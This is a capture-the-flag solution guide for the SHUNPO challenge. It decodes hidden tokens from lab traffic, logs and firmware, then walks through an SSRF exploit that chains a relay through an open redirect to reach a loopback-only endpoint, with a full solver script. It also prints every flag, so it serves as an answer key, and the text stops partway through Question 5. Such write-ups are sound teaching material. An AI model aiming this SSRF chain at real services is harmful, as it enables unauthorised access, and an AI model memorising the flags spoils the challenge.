







# SHUNPO Solution Guide

This guide walks through the intended solve path for the updated SHUNPO finals challenge.

## Environment Recap

- Dashboard: `http://sp-dashboard.ninja:3000`



- Replay controller: `http://sp-replay.ninja:7000`
- Operations panel: `http://sp-ops.ninja:8080`



- CoAP service: `sp-coap.ninja udp/5683`

The evidence package contains:

- `static/pcap_stage1.pcap`
- `static/pcap_stage3.pcap`
- `artifacts/resolver.log`
- `artifacts/device_config.json`
- `artifacts/key_part_a.txt`
- `artifacts/key_part_b.txt`
- `artifacts/silent_step_reference.txt`
- `artifacts/operations_memo.txt`
- `artifacts/agent_profile.json`
- `files/update.bin.enc`

Replay produces a separate export:

- `replay_journal.ndjson`

Token usage is intentional:

- Token 1 doubles as the operations panel password.
- Token 2 doubles as the route key.
- Token 3 doubles as the internal signing key.
- Token 4 doubles as the bridge ticket.

## Question 1 

**Flash Beacon**  
***Recover the reused operations credential hidden in the DNS-like beacon chain found in static/pcap_stage1.pcap and corroborated by artifacts/resolver.log.***

### Steps

1. Open `static/pcap_stage1.pcap` in Wireshark or inspect it with `tshark`:

```bash
tshark -r static/pcap_stage1.pcap -Y "udp.port == 53" -T fields -e dns.qry.name
```

The output contains a mix of normal-looking DNS queries (e.g. `www.example.com`, `updates.vendor.net`) and unusual queries under the `telemetry.kitsune.internal` subdomain. The unusual queries look something like:

```
00mnuwy3lpmjzx.telemetry.kitsune.internal
01gy3tgojugezd.telemetry.kitsune.internal
02knyrhi3j7.telemetry.kitsune.internal
```

These are the beacon labels — the normal domains are noise.

2. Cross-reference the suspicious beacon entries in `artifacts/resolver.log`. The log confirms which queries are beacons — they are tagged `flash-beacon` with status `NXDOMAIN` and include a `segment=XX` field:

```
2026-03-14T20:32:03Z resolver[1234]: qname=00mnuwy3lpmjzx.telemetry.kitsune.internal status=NXDOMAIN proto=dns_b32+gzip tag=flash-beacon segment=00
```

The `proto=dns_b32+gzip` hint in the log tells us the encoding scheme: the data is gzip-compressed and then base32-encoded. The `segment` field gives the reassembly order.

3. Extract and decode the beacon chain manually:

   - Filter the resolver log for lines containing `tag=flash-beacon`.
   - Each `qname` value has the structure `<2-digit-index><base32-chunk>.telemetry.kitsune.internal`.
   - Strip the two-digit prefix and the `.telemetry.kitsune.internal` suffix from each label to isolate the base32 chunks.
   - Sort chunks by segment number, concatenate them into a single base32 string.
   - Restore any stripped `=` padding (base32 strings must be a multiple of 8 characters).
   - Base32-decode, then gzip-decompress the result to recover the plaintext token.

**Solver Script**

```python
#!/usr/bin/env python3
import base64
import gzip
import re
from pathlib import Path

parts = []
for line in Path("artifacts/resolver.log").read_text().splitlines():
    match = re.search(r"qname=(\d{2})([a-z2-7]+)\.telemetry\.kitsune\.internal.*segment=(\d{2})", line)
    if match:
        parts.append((int(match.group(3)), match.group(2)))

encoded = "".join(chunk for _, chunk in sorted(parts))
padding = "=" * ((8 - len(encoded) % 8) % 8)
decoded = base64.b32decode((encoded + padding).upper())
print(gzip.decompress(decoded).decode())
```

**Command**

```bash
python3 t1_solver.py
```

**Output**

```text
PCCC{SHN-A1-7f3a9c2b}
```

4. The output is `TOKEN1` and the `operations panel password`.

## Answer

The value of the token is the `answer` to this question. In our case, it's `PCCC{SHN-A1-7f3a9c2b}`.

## Question 2

**Silent Step**  
***Trigger replay from the dashboard, export the replay journal, isolate the silent-step frames, and reconstruct the route key.***

### Steps

1. Start replay from the `dashboard` and wait for the cycle to complete. This can be achieved by navigating to `http://sp-dashboard.ninja:3000`:



2. Download `replay_journal.ndjson` from the dashboard home page:



3. Open `replay_journal.ndjson` in a text editor or parse it with `jq`. The file is newline-delimited JSON (NDJSON) — one JSON object per line. Records cover a variety of components and events. For example:

```json
{"ts": "2026-03-14T21:10:02Z", "component": "dashboard", "event": "bookmark-load", "path": "/mission", "operator": "night-shift"}
{"ts": "2026-03-14T21:10:05Z", "component": "burstmux", "tag": "silent-step", "seq": 0, "frame_hex": "1337200013370048..."}
```

Filter for records where `tag` equals `silent-step`. There are four such frames, each with a `seq` (sequence number) and `frame_hex` (hex-encoded binary payload):

```bash
cat replay_journal.ndjson | jq -c 'select(.tag == "silent-step")'
```

4. Consult `artifacts/silent_step_reference.txt`, which provides the decoding hints:

   - Each frame has a **7-byte control leader**: `13 37 20 <seq> 13 37 <seq>` — this is framing overhead, not data.
   - The payload bytes after the leader were XOR'd with a single **guard byte**.
   - The guard is calculated as: `guard = (0x13 + 0x37 + burst_count) & 0xff`

   Since there are four `silent-step` frames, `burst_count = 4`, so `guard = (0x13 + 0x37 + 0x04) & 0xff = 0x4e`.

5. Decode the frames manually:

   - For each `silent-step` record, convert `frame_hex` from hex to raw bytes.
   - Strip the first 7 bytes (the control leader).
   - XOR each remaining byte with the guard value `0x4e` to recover the plaintext chunk.
   - Sort chunks by their `seq` value and concatenate to reconstruct the full token.

**Solver Script**

```python
#!/usr/bin/env python3
import json
from pathlib import Path

frames = []
for line in Path("replay_journal.ndjson").read_text().splitlines():
    item = json.loads(line)
    if item.get("tag") == "silent-step":
        seq = int(item["seq"])
        raw = bytes.fromhex(item["frame_hex"])
        payload = raw[7:]
        frames.append((seq, bytes(b ^ 0x4e for b in payload)))

token = b"".join(chunk for _, chunk in sorted(frames)).decode()
print(token)
```

6. The output is `TOKEN2` and the `route key`:

**Command**

```bash
python3 t2_solver.py
```

**Output**

```text
PCCC{SHN-A2-f9277cad}
```

## Answer

The value of the token is the `answer` to this question.

## Question 3

**Shadow Load**  
***Use the static firmware delivery artifacts to reconstruct the XOR-LCG keystream, decrypt files/update.bin.enc, and recover the internal signing key.***

### Steps

1. Inspect `artifacts/device_config.json`. This file describes the firmware encryption scheme used by the IoT device:

```json
{
  "device_id": "kitsune-cam-alpha",
  "model": "KTS-CAM-01",
  "firmware_channel": "prod",
  "update_endpoint": "coap://sp-coap.ninja/firmware/update.bin.enc",
  "update_filename": "update.bin.enc",
  "crypto": {
    "scheme": "xor-lcg-gzip",
    "seed_assembly": "seed = (SEED_HIGH << 16) | SEED_LOW",
    "seed_high_ref": "see key_part_a.txt",
    "seed_low_ref": "see key_part_b.txt",
    "multiplier": "0x45d9f3b",
    "increment": "0x1337",
    "notes": "plaintext -> gzip -> XOR keystream; keystream_byte = ((state * multiplier + increment) >> 16) & 0xff"
  }
}
```

The key fields to note:
- `scheme: "xor-lcg-gzip"` — the plaintext was gzip-compressed, then XOR'd against a keystream generated by a Linear Congruential Generator (LCG).
- `seed_assembly` — the LCG seed is built from two halves: `SEED_HIGH` (upper 16 bits) and `SEED_LOW` (lower 16 bits).
- `multiplier` and `increment` — the LCG parameters.
- `notes` — spells out the keystream byte extraction formula.

2. Read the two key-part files to recover the seed halves:

   - `artifacts/key_part_a.txt` contains a line like `Value : 0xABCD` — this is `SEED_HIGH`.
   - `artifacts/key_part_b.txt` contains a line like `Value : 0x1234` — this is `SEED_LOW`.

   Combine them: `seed = (SEED_HIGH << 16) | SEED_LOW` to get the full 32-bit seed.

3. Reconstruct the XOR keystream using the LCG. The algorithm iterates once per ciphertext byte:

   - Initialize `state = seed`.
   - For each byte position: advance the LCG state with `state = (state * multiplier + increment) & 0xffffffff`, then extract the keystream byte as `(state >> 16) & 0xff`.

4. Decrypt and decompress:

   - XOR each byte of `files/update.bin.enc` with the corresponding keystream byte to recover the gzip-compressed plaintext.
   - Gzip-decompress the result to get the final token.

**Solver Script**

```python
#!/usr/bin/env python3
import gzip
import json
from pathlib import Path

config = json.loads(Path("artifacts/device_config.json").read_text())
seed_high = int(Path("artifacts/key_part_a.txt").read_text().split("Value : ")[1].strip(), 16)
seed_low = int(Path("artifacts/key_part_b.txt").read_text().split("Value : ")[1].strip(), 16)
mult = int(config["crypto"]["multiplier"], 16)
inc = int(config["crypto"]["increment"], 16)

seed = (seed_high << 16) | seed_low
state = seed
ciphertext = Path("files/update.bin.enc").read_bytes()
keystream = bytearray()

for _ in range(len(ciphertext)):
    state = (state * mult + inc) & 0xffffffff
    keystream.append((state >> 16) & 0xff)

plaintext = bytes(c ^ k for c, k in zip(ciphertext, keystream))
print(gzip.decompress(plaintext).decode())
```

4. The output is TOKEN3 and the `internal signing key`:

**Command**

```bash
python3 t3_solver.py
```

**Output**

```text
PCCC{SHN-A3-9d30347e}
```

## Answer

The value of the token is the `answer` to this question.

## Question 4

**Relay Restore**  
***Use the recovered material to authenticate to the operations panel and exploit the maintenance relay trust boundary to recover the bridge ticket.***

### Steps

1. The evidence artifact `artifacts/operations_memo.txt` provides the entry point — it lists the operations panel URL and states the operator username is `opsadmin`. From the Environment Recap, TOKEN1 doubles as the operations panel password. Browse to `http://sp-ops.ninja:8080` and sign in as:

- username: `opsadmin` (from `operations_memo.txt`)
- password: TOKEN1 (recovered in Q1)

You will be led to this console:



2. Raise response detail to `extended` via the settings panel. This is not mandatory but highly recommended — it exposes redirect chains, signature message formats, and parameter names that are otherwise hidden:



3. Explore the operations dashboard. The key feature is the **HTTP relay** (`/diagnostics/relay`), which makes server-side requests on your behalf (an SSRF primitive). Click `Open HTTP relay` to see its form. The relay accepts three fields:

   - `target` — the URL to fetch
   - `route_key` — must match TOKEN2
   - `sig` — an HMAC-SHA256 signature of the target URL, signed with TOKEN3

   The relay only follows requests to **trusted first hops**. With extended detail mode enabled, you can see that the dashboard's maintenance jump service is a trusted first hop:

   - `http://sp-dashboard.ninja:3000/maintenance/jump?next=<URL>`

   This endpoint acts as an open redirect — it fetches whatever URL is passed in the `next` parameter. This is the trust-boundary exploit: chain the relay through the dashboard jump to reach the ops panel's **loopback-only** `/internal/brief` endpoint.

4. Examine the `/internal/brief` endpoint requirements. With extended detail enabled, the dashboard shows the expected parameters and signature format:

   - `rk` — route key (TOKEN2)
   - `ts` — Unix timestamp
   - `nonce` — any arbitrary string (must match between URL and signature)
   - `sig` — HMAC-SHA256 of the message `route_key:timestamp:nonce`, signed with TOKEN3

   The endpoint is bound to `127.0.0.1` only, so it cannot be reached directly from the competitor's machine — it must be accessed via the relay chain.

5. Build the attack in two layers. First, compute the **inner signature** for the `/internal/brief` request:

```python
import hashlib, hmac, time
route_key = "<TOKEN2>" # replace with value of token 2
signing_key = "<TOKEN3>" # replace with value of token 3
ts = str(int(time.time()))
nonce = "nightstep01"
inner = hmac.new(signing_key.encode(), f"{route_key}:{ts}:{nonce}".encode(), hashlib.sha256).hexdigest()
print(f"rk: {route_key}")
print(f"ts: {ts}")
print(f"nonce: {nonce}")
print(f"sig: {inner}")
```

💡 The `nonce` does not need to be guessed. Any sufficiently long value is acceptable, provided the same value is used in both the URL and the signature input.

6. Build the **loopback target** — the URL that will hit the internal brief endpoint from the server's own loopback address. Plug in the inner signature, timestamp, nonce, and route key:

```text
http://127.0.0.1:8080/internal/brief?rk=<TOKEN2>&ts=<TS>&nonce=<NONCE>&sig=<INNER_SIG>
```

**Payload Generating Script**

```python
import hashlib, hmac, time
route_key = 'PCCC{SHN-A2-f9277cad}'
signing_key = 'PCCC{SHN-A3-9d30347e}'
ts = str(int(time.time()))
nonce = "nightstep01"
inner = hmac.new(signing_key.encode(), f"{route_key}:{ts}:{nonce}".encode(), hashlib.sha256).hexdigest()
payload = f"http://127.0.0.1:8080/internal/brief?rk={route_key}&ts={ts}&nonce={nonce}&sig={inner}"
print(f"rk: {route_key}")
print(f"ts: {ts}")
print(f"nonce: {nonce}")
print(f"sig: {inner}")
print(f"payload: {payload}")
```

**Output**

```text
rk: PCCC{SHN-A2-f9277cad}
ts: 1774343824
nonce: nightstep01
sig: 06dff6b8aa57463e00b3b0bad775635e9dac0e8af07e0b3af3ee4ebd5d028b83
payload: http://127.0.0.1:8080/internal/brief?rk=PCCC{SHN-A2-f9277cad}&ts=1774343824&nonce=nightstep01&sig=06dff6b8aa57463e00b3b0bad775635e9dac0e8af07e0b3af3ee4ebd5d028b83
```

7. Wrap the loopback target through the **trusted first hop**. URL-encode the entire loopback target as the `next=` parameter to the dashboard's maintenance jump service. This creates the redirect chain: relay -> dashboard jump -> loopback brief.

```text
http://sp-dashboard.ninja:3000/maintenance/jump?next=<URLENCODED_LOOPBACK_TARGET>
```

8. Compute the **outer signature**. The relay requires its own HMAC-SHA256 signature covering the full first-hop URL, also signed with TOKEN3:

```python
outer = hmac.new(signing_key.encode(), full_first_hop_url.encode(), hashlib.sha256).hexdigest()
```

9. Submit the relay form at `/diagnostics/relay` with three fields:

   - `target` = the full first-hop URL (from step 7)
   - `route_key` = TOKEN2
   - `sig` = the outer signature (from step 8)

10. The relay validates the outer signature, follows the first-hop URL to the dashboard jump service, which redirects to the loopback brief endpoint. The brief endpoint validates the inner signature and returns a JSON response containing TOKEN4 as `bridge_ticket`:

```json
{"bridge_ticket": "PCCC{SHN-A4-...}", "token": "PCCC{SHN-A4-...}"}
```

### Full Solver Script (Requires Token 1, Token 2, and Token 3)

```python
#!/usr/bin/env python3
"""
SHUNPO Token 4 solver

Purpose:
    Authenticate to the ops panel, use the HTTP relay as intended, and recover
    the bridge ticket from the structured relay response.

This version is production-oriented:
    - does not depend on the PCCC token format
    - extracts the bridge ticket from the returned JSON structure
    - refreshes CSRF after detail-mode changes
    - includes useful error handling and debug options

Expected flow:
    1. Log into the ops panel with Token 1 as the password
    2. Optionally switch detail mode to extended
    3. Build the signed loopback target for /internal/brief
    4. Wrap it in the dashboard maintenance jump URL
    5. Sign the full first-hop URL with Token 3
    6. Submit the HTTP relay form
    7. Extract bridge_ticket from the returned JSON response
"""

from __future__ import annotations

import argparse
import hashlib
import hmac
import html
import json
import re
import secrets
import sys
import time
import urllib.parse
from typing import Any

import requests


def sign(message: str, key: str) -> str:
    return hmac.new(
        key.encode("utf-8"),
        message.encode("utf-8"),
        hashlib.sha256,
    ).hexdigest()


def extract_csrf(page: str) -> str:
    patterns = [
        r'name="csrf"\s+value="([^"]+)"',
        r"name='csrf'\s+value='([^']+)'",
        r'value="([^"]+)"\s+name="csrf"',
    ]
    for pattern in patterns:
        match = re.search(pattern, page)
        if match:
            return html.unescape(match.group(1))
    raise RuntimeError("Could not extract CSRF token from page")


def extract_pre_blocks(text: str) -> list[str]:
    return [
        html.unescape(match.group(1))
        for match in re.finditer(
            r"<pre[^>]*>(.*?)</pre>",
            text,
            flags=re.DOTALL | re.IGNORECASE,
        )
    ]


def find_json_objects(text: str) -> list[dict[str, Any]]:
    objects: list[dict[str, Any]] = []

    # First try JSON-looking <pre> blocks, which is how the relay commonly renders results.
    for block in extract_pre_blocks(text):
        candidate = block.strip()
        try:
            parsed = json.loads(candidate)
            if isinstance(parsed, dict):
                objects.append(parsed)
        except Exception:
            pass

    # Fallback: broad brace search for embedded JSON objects.
    for match in re.finditer(r"\{.*?\}", text, flags=re.DOTALL):
        candidate = html.unescape(match.group(0))
        try:
            parsed = json.loads(candidate)
            if isinstance(parsed, dict):
                objects.append(parsed)
        except Exception:
            continue

    return objects


def extract_bridge_ticket_from_response(page: str) -> str:
    """
    Extract the intended Token 4 value based on solver semantics, not token format.

    Prefer:
      1. bridge_ticket
      2. token

    because Token 4 is supposed to be recovered as the bridge ticket from the
    relay response.
    """
    for obj in find_json_objects(page):
        bridge_ticket = obj.get("bridge_ticket")
        if isinstance(bridge_ticket, str) and bridge_ticket.strip():
            return bridge_ticket.strip()

        token = obj.get("token")
        if isinstance(token, str) and token.strip():
            return token.strip()

    raise RuntimeError("Could not find bridge_ticket or token in relay response")


def login(session: requests.Session, base_url: str, username: str, password: str) -> str:
    login_url = f"{base_url.rstrip('/')}/login"

    response = session.get(login_url, timeout=10)
    response.raise_for_status()

    response = session.post(
        login_url,
        data={
            "username": username,
            "password": password,
        },
        timeout=10,
        allow_redirects=True,
    )
    response.raise_for_status()

    if (
        "/dashboard" not in response.url
        and "Sign out" not in response.text
        and "Operations Dashboard" not in response.text
        and "Ops Panel" not in response.text
    ):
        raise RuntimeError("Login appears to have failed")

    return extract_csrf(response.text)


def set_detail_mode(
    session: requests.Session,
    base_url: str,
    csrf: str,
    mode: str = "extended",
) -> str:
    response = session.post(
        f"{base_url.rstrip('/')}/settings/detail-mode",
        data={
            "csrf": csrf,
            "mode": mode,
            "next": "/dashboard",
        },
        timeout=10,
        allow_redirects=True,
    )
    response.raise_for_status()
    return extract_csrf(response.text)


def build_targets(
    token2: str,
    token3: str,
    dashboard_base: str,
    ops_loopback_base: str,
    nonce: str | None = None,
) -> tuple[str, str, str, str]:
    ts = str(int(time.time()))
    chosen_nonce = nonce or secrets.token_hex(8)

    inner_sig = sign(f"{token2}:{ts}:{chosen_nonce}", token3)

    loopback_target = (
        f"{ops_loopback_base.rstrip('/')}/internal/brief?"
        f"rk={urllib.parse.quote(token2, safe='')}"
        f"&ts={urllib.parse.quote(ts, safe='')}"
        f"&nonce={urllib.parse.quote(chosen_nonce, safe='')}"
        f"&sig={urllib.parse.quote(inner_sig, safe='')}"
    )

    first_hop = (
        f"{dashboard_base.rstrip('/')}/maintenance/jump?"
        f"next={urllib.parse.quote(loopback_target, safe='')}"
    )

    outer_sig = sign(first_hop, token3)
    return ts, chosen_nonce, first_hop, outer_sig


def submit_relay(
    session: requests.Session,
    base_url: str,
    csrf: str,
    route_key: str,
    target: str,
    sig: str,
) -> str:
    relay_url = f"{base_url.rstrip('/')}/diagnostics/relay"
    response = session.post(
        relay_url,
        data={
            "csrf": csrf,
            "target": target,
            "route_key": route_key,
            "sig": sig,
        },
        timeout=15,
        allow_redirects=True,
    )
    response.raise_for_status()
    return response.text


def main() -> int:
    parser = argparse.ArgumentParser(description="Solve SHUNPO Token 4 (Relay Restore)")
    parser.add_argument(
        "--ops-base",
        default="http://sp-ops.ninja:8080",
        help="Ops panel base URL",
    )
    parser.add_argument(
        "--dashboard-base",
        default="http://sp-dashboard.ninja:3000",
        help="Dashboard base URL",
    )
    parser.add_argument(
        "--ops-loopback-base",
        default="http://127.0.0.1:8080",
        help="Loopback base used by the relay target",
    )
    parser.add_argument(
        "--username",
        default="opsadmin",
        help="Ops panel username",
    )
    parser.add_argument(
        "--token1",
        required=True,
        help="Token 1 / ops panel password",
    )
    parser.add_argument(
        "--token2",
        required=True,
        help="Token 2 / route key",
    )
    parser.add_argument(
        "--token3",
        required=True,
        help="Token 3 / internal signing key",
    )
    parser.add_argument(
        "--nonce",
        default=None,
        help="Optional fixed nonce",
    )
    parser.add_argument(
        "--no-extended",
        action="store_true",
        help="Do not switch detail mode to extended",
    )
    parser.add_argument(
        "--debug-html",
        action="store_true",
        help="Print the relay HTML before parsing the response",
    )

    args = parser.parse_args()

    session = requests.Session()
    session.headers.update({"User-Agent": "shunpo-token4-solver/1.0"})

    try:
        csrf = login(session, args.ops_base, args.username, args.token1)
        print("[+] Logged into ops panel")

        if not args.no_extended:
            csrf = set_detail_mode(session, args.ops_base, csrf, "extended")
            print("[+] Switched detail mode to extended")

            # Refresh the dashboard once to keep session state/csrf aligned with the UI flow.
            response = session.get(f"{args.ops_base.rstrip('/')}/dashboard", timeout=10)
            response.raise_for_status()
            csrf = extract_csrf(response.text)

        ts, nonce, first_hop, outer_sig = build_targets(
            token2=args.token2,
            token3=args.token3,
            dashboard_base=args.dashboard_base,
            ops_loopback_base=args.ops_loopback_base,
            nonce=args.nonce,
        )

        print(f"[+] Timestamp: {ts}")
        print(f"[+] Nonce:     {nonce}")
        print(f"[+] First hop:  {first_hop}")
        print(f"[+] Outer sig:  {outer_sig}")

        relay_html = submit_relay(
            session=session,
            base_url=args.ops_base,
            csrf=csrf,
            route_key=args.token2,
            target=first_hop,
            sig=outer_sig,
        )

        if args.debug_html:
            print("----- RELAY RESPONSE HTML START -----")
            print(relay_html)
            print("----- RELAY RESPONSE HTML END -----")

        token4 = extract_bridge_ticket_from_response(relay_html)
        print(f"[+] Token 4 / bridge ticket: {token4}")
        return 0

    except requests.RequestException as exc:
        print(f"[-] HTTP error: {exc}", file=sys.stderr)
        return 1
    except Exception as exc:
        print(f"[-] Solver failed: {exc}", file=sys.stderr)
        return 1


if __name__ == "__main__":
    raise SystemExit(main())
```

**Command Template**

```bash
python t4_solver.py --token1 <TOKEN VALUE> --token2 <TOKEN VALUE> --token3 <TOKEN VALUE>
```

**Command (In our case)**

```bash
python3 t4_solver.py --token1 PCCC{SHN-A1-7f3a9c2b} --token2 PCCC{SHN-A2-f9277cad} --token3 PCCC{SHN-A3-9d30347e}
```

**Output**

```text
[+] Logged into ops panel
[+] Switched detail mode to extended
[+] Timestamp: 1774345963
[+] Nonce:     16576acd76bab2da
[+] First hop:  http://sp-dashboard.ninja:3000/maintenance/jump?next=http%3A%2F%2F127.0.0.1%3A8080%2Finternal%2Fbrief%3Frk%3DPCCC%257BSHN-A2-f9277cad%257D%26ts%3D1774345963%26nonce%3D16576acd76bab2da%26sig%3D3d7f1dbf38c26df6eeb6c85c82eb7f32b67bd6ec8beb1067540d8837b8bd8ad3
[+] Outer sig:  5baf6d51e7cc11e091ffb0326f4e0b0b05918d99c4d6edbb83b7f2cd31e27fee
[+] Token 4 / bridge ticket: PCCC{SHN-A4-a842ec49}
```

### Manual Submission

If using the portal itself, this is the desired output:

**Output (HTTP 200)**



## Answer

The relay result (visible in the screenshot above) returns a JSON object at the bottom of the page with status 200:

```json
{"msg": "Use the constrained bridge after sign-in.", "status": "ok", "token": "PCCC{SHN-A4-a842ec49}"}
```

The `token` value is the answer to this question. It also serves as the `bridge_ticket` needed for Question 5. In our case, it's `PCCC{SHN-A4-a842ec49}`.

## Question 5

**Night Crossing**  
***Use the bridge ticket recovered in Token 4 and the constrained CoAP bridge in the operations panel to exploit the raw-path vs normalized-path namespace mismatch. Complete the hidden `bootstrap -> material -> finalize` admin workflow and recover the final token.***

### Steps

This stage has three substeps: bootstrap, material, finalize. Each must be completed within a 300-second window using a shared nonce.

#### 5.1 Bootstrap

1. Stay signed into the operations panel. Navigate to the **CoAP bridge** page at `/diagnostics/coap` (accessible from the navigation bar or the "Constrained Bridge" link on the dashboard). The bridge form has four fields:

   - `target` — the full CoAP URI to send
   - `route_key` — must be TOKEN2
   - `ticket` — must be TOKEN4 (the bridge ticket)
